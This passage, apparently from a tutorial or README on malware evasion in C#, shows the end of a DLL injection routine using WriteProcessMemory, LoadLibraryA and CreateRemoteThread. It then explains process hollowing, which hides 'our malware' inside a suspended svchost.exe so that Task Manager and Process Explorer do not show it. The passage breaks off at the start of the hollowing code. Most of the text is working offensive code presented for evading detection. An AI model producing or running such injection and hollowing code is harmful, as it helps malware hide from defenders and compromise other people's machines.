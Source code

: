 ```csharp

        IntPtr outSize;
        WriteProcessMemory(
            hProcess,
            addr,
            Encoding.Default.GetBytes(dllName),
            dllName.Length,
            out outSize
        );

        IntPtr loadLib =
            GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");

        CreateRemoteThread(
            hProcess,
            IntPtr.Zero,
            0,
            loadLib,
            addr,
            0,
            IntPtr.Zero
        );
    }
}
```

## Baby's first process hollow

Process hollowing is another evasion mechanism for executing our malware. This
technique involves invoking a process using a legit portable executable (PE)
from a directory like `C:\Windows\System32` like `svchost.exe`. When we invoke
the process, however, we start it in a suspended state. We hollow out the
contents of the original PE image, replacing it with the contents of our
malware.

After successfully injecting our malware into the hollowed out process, we allow
the process to resume execution, kicking off code execution for our malware.
From the perspective of tools like Task Manager and Process Explorer, we're not
executing malware but a legit PE from the `C:\Windows\System32` directory. Below
is a C# .NET demonstration of this technique:

```csharp
﻿using System.Runtime.InteropServices;
using Structures;
using Payload;

namespace BabyProcessHollow;

class Program
{
    [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Ansi)]
    static extern bool CreateProcess(
        string? lpApplicationName,
        string lpCommandLine,
        IntPtr lpProcessAttributes,
        IntPtr lpThreadAttributes,
        bool bInheritHandles,
        uint dwCreationFlags,
        IntPtr lpEnvironment,
        string? lpCurrentDirectory,
        [In] ref STARTUPINFO lpStartupInfo,
        out PROCESS_INFORMATION lpProcessInformation
    );

```